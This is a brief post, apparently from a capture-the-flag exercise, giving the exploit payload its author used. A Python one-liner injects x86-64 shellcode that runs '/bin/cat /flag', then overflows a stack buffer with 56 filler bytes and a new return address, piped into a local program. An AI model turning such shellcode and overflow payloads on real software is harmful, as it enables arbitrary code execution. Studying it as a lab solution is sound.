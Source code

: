 This is the payload that i used

    python -c 'import time, sys; sys.stdout.buffer.write(b"\x6a\x01\xfe\x0c\x24\x48\xb8\x2f\x62\x69\x6e\x2f\x63\x61\x74\x50\x48\x89\xe7\x48\xb8\x01\x01\x01\x01\x01\x01\x01\x01\x50\x48\xb8\x01\x2e\x67\x6d\x60\x66\x01\x01\x48\x31\x04\x24\x48\xb8\x2f\x62\x69\x6e\x2f\x63\x61\x74\x50\x31\xf6\x56\x6a\x11\x5e\x48\x01\xe6\x56\x6a\x10\x5e\x48\x01\xe6\x56\x48\x89\xe6\x31\xd2\x6a\x3b\x58\x0f\x05"); sys.stdout.flush(); time.sleep(2); sys.stdout.buffer.write(b"A"*56 + b"\x00\x00\x87\x15")' | ./your_program

